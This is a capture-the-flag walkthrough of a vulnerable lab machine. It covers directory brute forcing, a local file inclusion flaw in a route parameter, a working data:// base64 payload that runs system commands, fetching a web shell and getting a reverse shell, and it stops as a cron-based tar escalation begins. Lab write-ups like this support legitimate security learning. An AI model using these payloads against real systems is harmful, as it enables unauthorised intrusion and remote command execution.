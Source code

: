 
<h3 id="bigimage">Brute Force Result!</h3>
<p>It looks that we are going to need some of the web application skills :D. The web site is really simple and no much information has.</p><p>brute force directories is my favorate. Many tools could do this task, such as wfuzz, dirb, and dirbuster, for this one, I have used dirb on Kali linux, and I have the following:</p>
<p><div data-height="268" data-theme-id="0" data-slug-hash="bcqhe" data-default-tab="js" data-user="rglazebrook" class='codepen'></p>
<pre><code>main.php
content.php
nav.php
bomb.php
info.php
props.php
</code></pre></div></p>

<p>info.php shows much information about the php and its environment and the useful information that I could get is the following:</p>
<pre><code>allow_url_fopen		On
allow_url_include	On
$_SERVER['DOCUMENT_ROOT']	/var/www/html
$_SERVER['SCRIPT_FILENAME']	/var/www/html/info.php</code></pre>

<h3 id="bigimage">LFI</h3>
<pre><code>💥  ⑂aS3r 🎃  >> curl -x 127.0.0.1:8080 http://192.168.64.22</code></pre>	
<p>during the examination, I have noticed that the index page sends a post request to content.php with route parameter <code>route=main</code>! Since I know there is a info.php file on the same directory, I have tried to put <code>route=info</code>!!! Surprisingly, I have the same page as the info.php. Therefore, here we have <code>include</code> function with <code>.php</code> at the end!</p>

<p>To confirm that is a LFI vulnerabilty. I have tried the following since I know the full path of the web server</p>
<code>route=../../../var/www/html/info</code>
<p>And bingo! we have LFI without any filter, but we still require to get off the <code>.php</code>!!! For this one, I have spend some time trying some of bypass LFI techinques, and the only one that works with me is:</p>

<code>route=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOyA/Pg==</code>
<p>Using LFI, I was able to perform remote command injection using the base64 form of the following php code:</p>
{% highlight php %}<?php system('ls'); ?>{% endhighlight %}

<h3 id="bigimage">Reverse Shell</h3>
<p>Therefore, I was able to <code>wget</code> my shell. The following picture shows that I have successfully downloaded the cmd.php file:</p>
<img src="../assets/images/milnet/upload.jpg" />

<p>And here accessing the cmd.php</p>
<img src="../assets/images/milnet/shell.jpg">
<p>I have successfully received a reverse shell on port 5555 using b374k shell features.</p>
<img src="../assets/images/milnet/rev.jpg">

<h3 id="bigimage">Tar command execution!</h3>
<p>During the anlysis of the server, I have noticed that <code>/etc/crontab</code> is readable! It looks that <code>backup.sh</code> does a backup of the web directory every one minute:</p>
